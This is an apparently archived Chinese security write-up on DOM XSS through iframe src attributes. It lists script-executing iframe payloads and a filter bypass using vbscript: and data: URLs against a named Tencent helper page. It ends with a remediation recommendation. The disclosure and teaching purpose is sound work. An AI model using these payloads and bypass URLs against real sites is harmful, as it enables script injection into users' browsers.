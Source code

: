 # 11\. Dom Xss 进阶 [善变 iframe]

# 11\. Dom Xss 进阶 [善变 iframe]

> 来源：[11\. Dom Xss 进阶 [善变 iframe]](http://www.wooyun.org/bugs/wooyun-2010-016223)

## 简要描述

有时候，输出还会出现在 `<iframe src="[输出]"></iframe>` 。 iframe 的 src 属性本来应该是一个网址，但是 iframe 之善变，使得 它同样可以执行 javascript，而且可以用不同的姿势来执行。这一类问题，我将其归为[路径可控]问题。当然上面说到的是普通的反 射型 XSS。有时候程序员会使用 javascript 来动态的改变 iframe 的 src 属性，譬如：`iframeA.src="[可控的 url]";` 同样会导致 XSS 问题，来看看本例吧～

## 详细说明

1\. 先来说说 iframe 的变化。

1.1 最好懂的，onload 执行 js

```
<iframe onload="alert(1)"></iframe> 
```

1.2 src 执行 javascript 代码

```
<iframe src="javascript:alert(1)"></iframe> 
```

3\. IE 下 vbscript 执行代码

```
<iframe src="vbscript:msgbox(1)"></iframe> 
```

1.4 Chrome 下 data 协议执行代码

```
<iframe src="data:text/html,<script>alert(1)</script>"></iframe> Chrome 
```

1.5 上面的变体

```
<iframe src="data:text/html,<script>alert(1)</script>"></iframe> 
```

1.6 Chrome 下 srcdoc 属性

```
<iframe srcdoc="<script>alert(1)</script>"></iframe> 
```

2\. 有兴趣的，可以一个一个的去测试上面的效果，注意浏览器的特异性哦。

3\. 接着我们来看看具体的例子。

```
http://helper.qq.com/appweb/tools/tool-detail.shtml?turl=aaaaaa&gid=yl&cid=68&from= 
```

4\. 我们先开调试工具，看看有没有可见的输出。

![image](img/Image_054.jpg)

可以看到，我们参数的 aaaaaa 被带入到了`<iframe src="这里"></iframe>`。

这样一来，就满足了我们的使用条件。 我们试试

```
http://helper.qq.com/appweb/tools/tool-detail.shtml?turl=javascript:alert(1);&gid=yl&cid=68&from= 
```

。。竟然没反应。我们来看看刚才的那个地方。

![image](img/Image_055.jpg)

可以看到，src 这次没属性了，看来腾讯做了什么过滤。我们继续搜索下一个 toolframe 试试。

恩，看来就是这段代码导致的。

![image](img/Image_056.jpg)

一起看看这段代码。

```
function OpenFrame(url) {
    if (url.toLowerCase().indexOf('http://') != '-1' || 
        url.toLowerCase().indexOf('https://') != '-1' || 
        url.toLowerCase().indexOf('javascript:') != '-1') 
        return false; 
    document.getElementById("toolframe").src = url;
} 
```

不难看出，腾讯对 javascript:做出了判断。

```
document.getElementById("toolframe").src = url; 
```

这句是导致 XSS 的一句代码。而 openFrame 的 url 参数则来自于(无关代码省略)：

```
...
var tool_url = getQueryStringValue("turl");
...
openFrame(tool_url);
... 
```

5\. 根据我们上面说道的 iframe 的利用方法，我们不难看出，腾讯的过滤是不完善的。

在 IE 下，我们可以使用 vbscript 来执行代码。 vbscript 里 ' 单引号表示注释，类似 JS 里的`//`

```
http://helper.qq.com/appweb/tools/tool-detail.shtml?turl=vbscript:msgbox(1)'&gid=yl&cid=68&from= 
```

![image](img/Image_057.jpg)

```
http://helper.qq.com/appweb/tools/tool-detail.shtml?turl=data:text/html,<script>alert(1)</script>'&gid=yl&cid=68&from= 
```

![image](img/Image_058.jpg)

6\. 就到这里。

## 修复方案

危险的不光是 javascript:， vbscript:, data: 等同样需要过滤。